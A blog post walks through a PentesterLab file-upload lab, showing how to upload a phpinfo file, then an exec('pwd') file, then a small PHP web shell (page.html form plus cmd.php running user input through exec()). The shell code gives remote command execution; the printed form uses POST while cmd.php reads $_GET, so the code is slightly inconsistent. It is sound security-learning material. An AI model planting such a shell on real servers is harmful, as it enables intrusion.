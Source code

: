 # Baby's first PHP shell
I previously had been auditing a course here at Portland State for web application security -- the faculty provides all the course material for free online, so anyone can take a look at it. The aim of the course is to get students familiar with basic security principles -- things to watch out for when developing hosted applications and how web applications behave in comparison to desktop or server-based programs. A server-side application may have a vulnerability in terms of passing un-validated data for execution, but that has a different threat model in comparison to a public website. Either way, the point is to instill best practices and have this cascade over to other development projects.  


For our testing sandbox, we relied on pre-configured images from PentesterLab (link below for the curious)  

https://pentesterlab.com/exercises/web_for_pentester/attachments  


Pentester Lab is a great resource that provides guides on how to execute various exploits -- SQL injections, XSS attacks, and (what we're talking about today) PHP shells, to name a few.  


I have some experience with web site exploitation but have never really executed a PHP shell attack -- I really had only heard the words "PHP Shell" and knew nothing past that point. I set up the ISO in Virtual Box locally and fired it up to get started.  


Clicking on the File Upload 1 exercise, if we successfully upload a file we receive this response:  

 
![Upload](https://raw.githubusercontent.com/mattkduran/mattkduran.github.io/master/_thumbnails/2020-03-14/1UploadProcess.png)  


Clicking on the link in the response takes us directly to the image as well as shows where that image is on the server. From this URL, we can tell exactly where the file is on the server as well.  


![Raccoon](https://raw.githubusercontent.com/mattkduran/mattkduran.github.io/master/_thumbnails/2020-03-14/2UploadResult.png)  


Most websites nowadays screen for the filetype that's being uploaded to prevent remote code execution as a precaution. Instead of a jpeg, I'm going to upload a PHP file, which, if executed, will show the version of PHP running on the server. You can create this file by typing the following into a file and saving it off as a .php file -- the name does not matter.  


`<?php phpinfo();?>`

That's all! The ?php portion initializes PHP by saying, "I am going to run a PHP function." The phpinfo(); is the actual function call which shows PHP's configuration on this server.  


![PHP Info](https://raw.githubusercontent.com/mattkduran/mattkduran.github.io/master/_thumbnails/2020-03-14/3phpInfo.png)  


Success! So what other commands can we send to this server through the file upload feature? PHP has a couple of functions that we can use to accomplish this if we combine them together.  


The PHP exec command will accept a system command as an argument and can store the result as a variable. The echo command works the same as on the command line -- it'll show whatever is passed to it to the screen. You can read more about both these commands here in the PHP manual:  


https://www.php.net/manual/en/function.exec.php
https://www.php.net/manual/en/function.echo.php  


So what if we modify that phpinfo file to list what directory we are in by executing the pwd linux command?  


    <?php echo exec("pwd")?>

![PWD](https://raw.githubusercontent.com/mattkduran/mattkduran.github.io/master/_thumbnails/2020-03-14/4pwd.png)  


I am a bit lazy, though, and don't want to have to upload a file every single time that I want to execute a command, so let's make an html form that passes a command to be executed by the php. I'll split this out into two files -- page.html will have all form materials and cmd.php will execute the command.  


## page.html
    <html>
    <body>
    <form method="POST" action="cmd.php">
        <input type="text" id="command" name="command" >
            <input type="submit" name="submit">
    </form>
    </body>
    </html>

## cmd.php
 
    <html>
    <body>
    <?php
    $var = $_GET['command'];
    echo exec($var);
    ?>
    </body>
    </html>

Now, when I type a command into here and submit...
![Execute](https://raw.githubusercontent.com/mattkduran/mattkduran.github.io/master/_thumbnails/2020-03-14/5query.png)  


I get a new page with the results!
![Result](https://raw.githubusercontent.com/mattkduran/mattkduran.github.io/master/_thumbnails/2020-03-14/6catResult.png)
